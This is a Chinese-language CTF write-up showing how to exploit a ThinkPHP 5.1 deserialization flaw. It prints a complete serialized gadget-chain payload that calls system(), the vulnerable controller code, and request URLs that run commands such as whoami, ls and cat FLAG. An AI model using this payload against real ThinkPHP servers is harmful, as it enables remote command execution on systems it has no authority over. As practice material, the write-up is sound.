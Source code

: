 ### ThinkPHP 反序列化利用链

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68643bc458cb8da5c885cff0.png)

访问环境时提示下载源代码 `www.zip`

![](https://pic1.imgdb.cn/item/68643d6c58cb8da5c885d046.png)

下载源代码后解压缩，通过阅读 `readme.md` 发现是 thinkphp 5.1 版本

网上搜索后，得到[利用链 thinkphp_5.1_exp.php 文件](https://github.com/Jason1314Zhang/BUUCTF-WP/blob/main/N1BOOK/scripts/thinkphp_5.1_exp.php)，只需执行 `php thinkphp_5.1_exp.php`，便可以得到 payload

关于利用链的构造网上很多大神分析了，可以看 [Thinkphp 5.1 反序列化利用链深入分析](https://paper.seebug.org/1040/)，我就不分析了，重点讲下做题

payload 内容如下：

```
O:27:"think\process\pipes\Windows":1:{s:34:"?think\process\pipes\Windows?files";a:1:{i:0;O:17:"think\model\Pivot":2:{s:9:"?*?append";a:1:{s:1:"a";a:1:{i:0;s:0:"";}}s:17:"?think\Model?data";a:1:{s:1:"a";O:13:"think\Request":3:{s:7:"?*?hook";a:1:{s:7:"visible";a:2:{i:0;r:8;i:1;s:6:"isAjax";}}s:9:"?*?filter";s:6:"system";s:9:"?*?config";a:1:{s:8:"var_ajax";s:0:"";}}}}}}
```

这里分析一下 thinkphp 的 2 个主要文件

`application\index\controller\index.php` 文件,只有请求被 hello 解析时，才能通过构造 POST 请求将 payload 赋值

给 str，实现反序列化利用

```php
<?php
namespace app\index\controller;

class Index
{
   public function index()
   {
      return "<a href='www.zip'>download code</a>";
   }

   public function hello()
   {
      unserialize($_POST['str']);
   }
}
```

`route\route.php` 文件，压缩包源代码与实际 BUUCTF 服务器代码不一样

压缩包代码如下

```php
<?php
// 当用户访问 URL 路径 /think 时
// 执行一个匿名函数（闭包）
// 函数返回字符串 'hello,ThinkPHP5!'
// 这个响应会直接返回给客户端
Route::get('think', function () {
   return 'hello,ThinkPHP5!';
});

// 当用户访问类似 /hello/John 这样的 URL 时
// :name 是一个路由参数，可以匹配任何值（这里是 "John"）
// 请求会被路由到 index 控制器的 hello 方法
// 路由参数 name 会作为参数传递给该方法
Route::get('hello/:name', 'index/hello');
return [
];
```

根据源代码构造了两种 url 请求，以 `whoami` 为例子

第一个请求路由为 `application\index\controller\index.php` 文件 -> `Index` 类 -> `hello()` 方法

```
http://{your_server}/public/index.php/index/Index/hello?a=whoami
```

![](https://pic1.imgdb.cn/item/68644be958cb8da5c885d45e.png)

第二个请求利用了 thinkphp 的[兼容模式 url](https://m.php.cn/phpkj/thinkphp/448480.html)

```
http://{your_server}/public/index.php?s=index/index/hello&a=whoami
```

![](https://pic1.imgdb.cn/item/68644c8c58cb8da5c885d48e.png)

介绍完本机命令执行，再来介绍 BUUCTF 命令执行。服务器只能用第二种请求

构造参数 `a=cd /;ls` 和 `a=cd /;cat FLAG`，`str` 的值为 1 中 payload，通过 `hackbar` 或 `burpsuite` 发包

![](https://pic1.imgdb.cn/item/68644d6458cb8da5c885d4c2.png)

![](https://pic1.imgdb.cn/item/68644d6d58cb8da5c885d4c3.png)